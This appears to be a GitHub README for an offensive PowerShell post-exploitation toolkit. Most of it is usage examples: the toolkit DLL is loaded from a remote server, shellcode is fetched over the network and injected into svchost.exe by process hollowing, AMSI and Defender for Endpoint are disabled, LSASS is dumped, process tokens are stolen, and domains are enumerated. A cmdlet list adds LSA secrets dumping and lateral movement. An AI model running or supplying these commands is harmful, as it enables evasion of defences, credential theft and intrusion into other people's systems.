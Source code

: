 # TortugaToolKit


## Examples

Load it

```powershell
$a=[System.Reflection.Assembly]::Load($(IWR -Uri http://yourserver/TurtleToolKit.dll -UseBasicParsing).Content);
Import-Module -Assembly $a

Untested but should work. maybe.
$test=((IWR -Uri 'http://yourserver/turtletoolkit.dll' -UseBasicParsing).RawContent);
$len=$test.length;$test.SubString($len-($len -198));$a=[System.Reflection.Assembly]::Load($test);
Import-Module -Assembly $a

```

Example of remotely loading and encrypting shellcode, then performing proc hollow with it
```powershell
$code = Invoke-EncryptShellcode -shellcode $(IWR -Uri 'http://ip/shellcode.bin' -usebasicparsing).Content
INVPH -encsh $code.encryptedShellcode -k $code.encryptionKey -ivk $code.initVectorKey -pn 'svchost.exe' -Verbose
```
Example of performing ping sweep then admin check on subnet
```powershell
$s = Invoke-PingSweep -s "172.16.23.0";
foreach($h in $s){Invoke-AdminCheck -t $h}

Invoke-AdminCheck -h $(Invoke-PingSweep -s "172.16.75.0")
```
Example of impersonation via process token then running SharpView (or sharphound) as that domain user
```powershell
Invoke-TokenStealer -procH $false

Get-CurrentIdentity

Invoke-TurtleView -c "Get-DomainComputers";
Invoke-TurtleHound
```
Example of disabling amsi then disabling defender for endpoint and performing lsass process dump
```powershell
Disable-AyEmEsEye -Verbose
Disable-DefenderForEndpoint
Invoke-TurtleDump
Enable-DefenderForEndpint

```
Example of loading and executing a c# assembly
```powershell
Invoke-AssemblyLoader -e $false -l $false -path "http://ip/payload" -name namespace -clss targetclass -run method

```

## Cmdlets

```
Disable-AyEmEsEye
Disable-DefenderForEndpoint
Disable-Etw
Enable-DefenderForEndpoint
Enable-Privileges
Get-ActiveDirectoryComputers
Get-ActiveDirectoryForests
Get-ActiveDirectoryGroupMembership
Get-ActiveDirectoryGroups
Get-ActiveDirectoryUsers
Get-CurrentIdentity
Get-MsSQLQuery
Get-SQLInfo
Get-System
Get-TrustedInstaller
Invoke-AdminCheck
Invoke-AssemblyLoader
Invoke-ClassicInjection
Invoke-FileLessLateralMovement
Invoke-LsaSecretsDmp
Invoke-MsSQLAssembly
Invoke-MsSQLShell
Invoke-PingSweep
Invoke-ProcessHollow
Invoke-ShellcodeEncryption
Invoke-TokenStealer
Invoke-TurtleDump
Invoke-TurtleHound
Invoke-TurtleUp
Invoke-TurtleView
Undo-Impersonation

```
